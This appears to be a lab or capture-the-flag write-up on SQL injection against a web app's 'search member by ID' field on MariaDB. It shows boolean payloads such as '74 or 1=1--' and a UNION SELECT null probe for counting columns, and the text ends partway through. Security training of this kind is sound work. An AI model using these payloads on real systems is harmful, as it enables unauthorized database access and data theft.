 ### **first-test**

try to write any basic SQL SELECT Statement in members input field as it is vulnerable to SQL injection

> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'select \*' at line 1

we write to the search field `74 or 1=1` or `74 or 1=1--` replacing 74 by any random id as the input have a label:` SEARCH MEMBER BY ID`

> assumimg that the injected query `74 or 1=1-- ` is typically combined with the original query by the application's backend code before being sentto the database for execution. and the resulted query is something like : `SELECT <column_name1>, <column_name2> FROM <table_nams> WHERE ID = 74 or 1=1`

In this case, the injected part `74 OR 1=1--` causes the query to return all rows from the users table because 1=1 is always true. The -- at the end is used to comment out the rest of the original query to avoid syntax errors.(it's not necessary to use the hyphens).

> result
> ID: 74 or 1=1
> First name: one
> Surname : me

the result show that the oroginal select query over two columns and this is a very important information to use in the sql query injection.

The `UNION` operator is used to combine the result-set of two or more `SELECT` statements

- Every `SELECT` statement within `UNION` must have the same number of columns
- The columns must also have similar data types
- The columns in every `SELECT` statement must also be in the same order

> Syntaxe example :

SELECT _column_name(s)_ FROM _table1_ UNION SELECT _column_name(s)_ FROM _table2_;

### **Detecting number of columns**

To determine the number of columns in a query, select more and more null values until the query is correct:

> 74 or 1=1 UNION SELECT null // The used SELECT statements have a different number of columns
> 74 or 1=1 UNION SELECT null,null // worked

